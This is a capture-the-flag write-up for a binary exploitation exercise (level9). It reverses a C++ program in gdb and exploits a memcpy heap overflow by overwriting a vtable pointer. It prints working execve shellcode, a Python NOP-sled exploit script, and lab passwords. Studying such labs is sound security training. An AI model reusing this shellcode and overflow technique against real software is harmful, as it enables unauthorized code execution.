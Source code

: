 # Level9 - Read asm of CPP file

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level9 | `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a` |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level9

```shell
./level9
```

Nothing happened

Lets debug the binary

```shell
(gdb) info functions
0x080485f4  main
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```

See our assembly interpretation in [source file](../source.c)

The main difficulty here is the C++ language, that translates class method in not obvious ASM names. For example `_ZN1NplERS_` => `N::operator+(N&)`.

We can see a function `N::setAnnotation(char*)`, that uses `memcpy` and then the register `edx` is executed.

The idea is to use `memcpy` to create a buffer overflow and then execute a shellcode.

Lets search the offset

```shell
gdb-peda$ pset arg cyclic_pattern(200)
gdb-peda$ run
gdb-peda$ pattern search
> Registers contain pattern buffer:
  EAX+0 found at offset: 108
  Pattern buffer found at:
  0x0804a00c : offset    0 - size  200 ([heap])
```

While debugging we confirm the address of the buffer `a->annotation` is well 0x0804a00c, with an offset of 108.

```shell
gdb-peda$ b*0x08048677
gdb-peda$ run AAAA
gdb-peda$ ni
gdb-peda$ x/30x 0x0804a00c
  0x804a00c:      0x41414141      0x00000000      0x00000000      0x00000000
  0x804a01c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a02c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a03c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a04c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a05c:      0x00000000      0x00000000      0x00000000      0x00000000
  0x804a06c:      0x00000000      0x00000005      0x00000071      0x08048848
  0x804a07c:      0x00000000      0x00000000
gdb-peda$ x/x 0x08048848
  0x8048848 <_ZTV1N+8>:   0x0804873a
gdb-peda$ x/x 0x0804873a
  0x804873a <_ZN1NplERS_>: 0x8be58955

```

We have to erase the address `0x08048848`. It will be executed by `edx`. It contains a reference to a pointer of `N::operator+(N&)` method.

We have to build an exploit with:

```bash
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" # Length: 28
PADDING=`python -c 'print("A" * 80)'` # OFFSET=108 - SHELLCODE_LENGTH=28
RETADDRESS="\x0c\xa0\x04\x08"

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9
```

Lets try

```shell
gdb-peda$ b*0x08048693 # before $edx
gdb-peda$ run $(cat /tmp/exploit9)
gdb-peda$ p $edx
  $1 = 0x6850c031
gdb-peda$ ni
  Stopped reason: SIGSEGV
  0x6850c031 in ?? ()
```

Unfortunately, this one does not work because it tries to dereference the address `0x6860c031` instead of executed it.

We have to put the address of shellcode as prefix.

Lets try again

```bash
SHELLCODE_ADDRESS="\x10\xa0\x04\x08" # Buffer address + 4
SHELLCODE="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
PADDING=`python -c 'print("A" * 76)'` # OFFSET=108 - SHELLCODE_LENGTH=28 - SHELLCODE_ADDRESS=4
RETADDRESS="\x0c\xa0\x04\x08" # Buffer address

python -c "print('$SHELLCODE_ADDRESS' + '$SHELLCODE' + '$PADDING' + '$RETADDRESS')" > /tmp/exploit9
```

```shell
gdb-peda$ b*0x08048693 # before $edx
gdb-peda$ run $(cat /tmp/exploit9)
gdb-peda$ p $edx
  $1 = 0x804a010 # address of shellcode
gdb-peda$ x/x 0x804a010
  0x804a010:      0x6850c031 # first instructions of shellcode. Seems great !
gdb-peda$ continue
  process 9431 is executing new program: /bin/dash
$ # We have got the shell !
```

Another way could be to fill the padding with NOPSLED (\x90) and then point to an address inside this padding of NOP  
The buffer starting at 0x0804a00c with 76 NOP (108 - 28 - 4), we can for example chose 16 bytes after and point at 0x0804a01c

```python
#!/usr/bin/python

START = '\x1c\xa0\x04\x08'
NOPSLED = '\x90' * (108 - 28 - 4)
SHELLCODE = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
EIP = '\x0c\xa0\x04\x08'

print START + NOPSLED + SHELLCODE + EIP
```

Finally we can get the pass !

```shell
~/level9 $(cat /tmp/exploit9)
$ whoami
> bonus0
$ cat /home/user/bonus0/.pass
> f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

---

## Sources

### ASM

- [What is operator new(unsigned int)? - \_Znwj](https://reverseengineering.stackexchange.com/questions/4402/what-is-operator-newunsigned-int)

### CPP

- [C++ Overloading (Operator and Function)](https://www.tutorialspoint.com/cplusplus/cpp_overloading.htm)
- [Man \_Exit](https://en.cppreference.com/w/cpp/utility/program/_Exit)
- [Man memcpy](http://www.cplusplus.com/reference/cstring/memcpy/)
